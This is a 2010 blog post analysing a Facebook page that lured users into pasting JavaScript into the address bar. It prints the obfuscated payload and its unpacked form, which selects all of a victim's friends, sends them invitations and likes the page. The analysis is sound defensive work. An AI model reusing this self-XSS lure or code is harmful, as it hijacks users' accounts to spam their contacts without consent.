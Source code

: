 ```yaml
---
layout: post
title: "Shady Harvard Puzzle Facebook App Disassembled"
date: 2010-04-26 22:32:33 +0000
permalink: /en/shady-harvard-puzzle-facebook-app-disassembled
blog: en
---
```


Today I got an email from a friend on Facebook that suggested that I try
out this application called "[Only 4% of harvard grads can solve this
riddle..](http://www.facebook.com/pages/Only-4-of-harvard-grads-can-solve-this-riddle/112049325499228?v=wall)".
Being curious I took a look at it.

The app starts out innocently enough, posing a riddle that supposedly
only 4% of Harvard grads can guess.

![image](http://farm5.static.flickr.com/4062/4554647376_5a38c707a8.jpg)

But in order to see the answer it asks you to type "Ctrl-C" to copy some
javascript, "Alt-D" to select your address bar, and "Ctrl-V Enter" to
run the javascript.

Here is the beautified packed javascript.

``` javascript
javascript: (function () {
    a = 'app112010525500764_jop';
    b = 'app112010525500764_jode';
    ifc = 'app112010525500764_ifc';
    ifo = 'app112010525500764_ifo';
    mw = 'app112010525500764_mwrapper';
    eval(function (p, a, c, k, e, r) {
        e = function (c) {
            return (c < a ? '' : e(parseInt(c / a))) + ((c = c % a) > 35 ? String.fromCharCode(c + 29) : c.toString(36))
        };
        if (!''.replace(/^/, String)) {
            while (c--) r[e(c)] = k[c] || e(c);
            k = [function (e) {
                return r[e]
            }];
            e = function () {
                return '\\w+'
            };
            c = 1
        };
        while (c--) if (k[c]) p = p.replace(new RegExp('\\b' + e(c) + '\\b', 'g'), k[c]);
        return p
    }('J e=["\\n\\g\\j\\g\\F\\g\\i\\g\\h\\A","\\j\\h\\A\\i\\f","\\o\\f\\h\\q\\i\\f\\r\\f\\k\\h\\K\\A\\L\\t","\\w\\g\\t\\t\\f\\k","\\g\\k\\k\\f\\x\\M\\N\\G\\O","\\n\\l\\i\\y\\f","\\j\\y\\o\\o\\f\\j\\h","\\i\\g\\H\\f\\r\\f","\\G\\u\\y\\j\\f\\q\\n\\f\\k\\h\\j","\\p\\x\\f\\l\\h\\f\\q\\n\\f\\k\\h","\\p\\i\\g\\p\\H","\\g\\k\\g\\h\\q\\n\\f\\k\\h","\\t\\g\\j\\z\\l\\h\\p\\w\\q\\n\\f\\k\\h","\\j\\f\\i\\f\\p\\h\\v\\l\\i\\i","\\j\\o\\r\\v\\g\\k\\n\\g\\h\\f\\v\\P\\u\\x\\r","\\B\\l\\Q\\l\\R\\B\\j\\u\\p\\g\\l\\i\\v\\o\\x\\l\\z\\w\\B\\g\\k\\n\\g\\h\\f\\v\\t\\g\\l\\i\\u\\o\\S\\z\\w\\z","\\j\\y\\F\\r\\g\\h\\T\\g\\l\\i\\u\\o"];d=U;d[e[2]](V)[e[1]][e[0]]=e[3];d[e[2]](a)[e[4]]=d[e[2]](b)[e[5]];s=d[e[2]](e[6]);m=d[e[2]](e[7]);c=d[e[9]](e[8]);c[e[11]](e[10],I,I);s[e[12]](c);C(D(){W[e[13]]()},E);C(D(){X[e[16]](e[14],e[15])},E);C(D(){m[e[12]](c);d[e[2]](Y)[e[4]]=d[e[2]](Z)[e[5]]},E);', 62, 69, '||||||||||||||_0x95ea|x65|x69|x74|x6C|x73|x6E|x61||x76|x67|x63|x45|x6D||x64|x6F|x5F|x68|x72|x75|x70|x79|x2F|setTimeout|function|5000|x62|x4D|x6B|true|var|x42|x49|x48|x54|x4C|x66|x6A|x78|x2E|x44|document|mw|fs|SocialGraphManager|ifo|ifc|||||||'.split('|'), 0, {}))
})();
```

Here we have some javascript code that is packed. The above code unpacks
the packed code and evals it. I replaced the above eval with console.log
and ran the code to output the packed code. Here it is beautified.

``` javascript
d = document;
d['getElementById'](mw)['style']['visibility'] = 'hidden';
d['getElementById'](a)['innerHTML'] = d['getElementById'](b)['value'];
s = d['getElementById']('suggest');
m = d['getElementById']('likeme');
c = d['createEvent']('MouseEvents');
c['initEvent']('click', true, true);
s['dispatchEvent'](c);
setTimeout(function () {
    fs['select_all']()
}, 5000);
setTimeout(function () {
    SocialGraphManager['submitDialog']('sgm_invite_form', '/ajax/social_graph/invite_dialog.php')
}, 5000);
setTimeout(function () {
    m['dispatchEvent'](c);
    d['getElementById'](ifo)['innerHTML'] = d['getElementById'](ifc)['value']
}, 5000);
```

Lets go though the code above step by step.

``` javascript
d['getElementById'](mw)['style']['visibility'] = 'hidden';
```

This code hides the application's main block.

``` javascript
d['getElementById'](a)['innerHTML'] = d['getElementById'](b)['value'];
```

The contents of the textarea at id b ('app112010525500764\_jode') is
html for a dialog to suggest the application to your friends. The code
inserts it into a block on the page.

``` html
<textarea id="app112010525500764_jode" style="display: none;" fbcontext="86d477030eb0">
  <div class="suggestdiv">
    <a id="suggest" href="#" ajaxify="/ajax/social_graph/invite_dialog.php?class=FanManager&node_id=112049325499228" class=" profile_action actionspro_a" rel="dialog-post">Suggest to Friends</a>
  </div>
  <div class="likemediv">
    <a ajaxify="/ajax/pages/fan_status.php?fbpage_id=112049325499228&add=1&reload=0&preserve_tab=1&use_primer=1" id="likeme" rel="async-post" class="UIButton UIButton_Gray UIButton_CustomIcon UIActionButton" href="#">
    <span class="UIButton_Text"><i class="UIButton_Icon img spritemap_icons sx_icons_like"></i>Like</span></a>
  </div>
</textarea>
```

The next code sets up a mouse click event and selects some elements from
the suggest box.

``` javascript
s = d['getElementById']('suggest');
m = d['getElementById']('likeme');
c = d['createEvent']('MouseEvents');
c['initEvent']('click', true, true);
s['dispatchEvent'](c);
```

The code below is the shady part. It sets 5 second timers that will
click items on the suggestion box, effectively selecting all of your
friends and suggesting the application to them. It then likes the
application.

``` javascript
setTimeout(function () {
    fs['select_all']()
}, 5000);
setTimeout(function () {
    SocialGraphManager['submitDialog']('sgm_invite_form', '/ajax/social_graph/invite_dialog.php')
}, 5000);
setTimeout(function () {
    m['dispatchEvent'](c);
    d['getElementById'](ifo)['innerHTML'] = d['getElementById'](ifc)['value']
}, 5000);
```

As of this writing 543 people had liked the application which I take to
mean that 543 people followed the instructions on the application. The
application itself doesn't do anything particularly bad besides spam all
of your friends so I took it to be a security research application.
Anyone else have a better take on it?
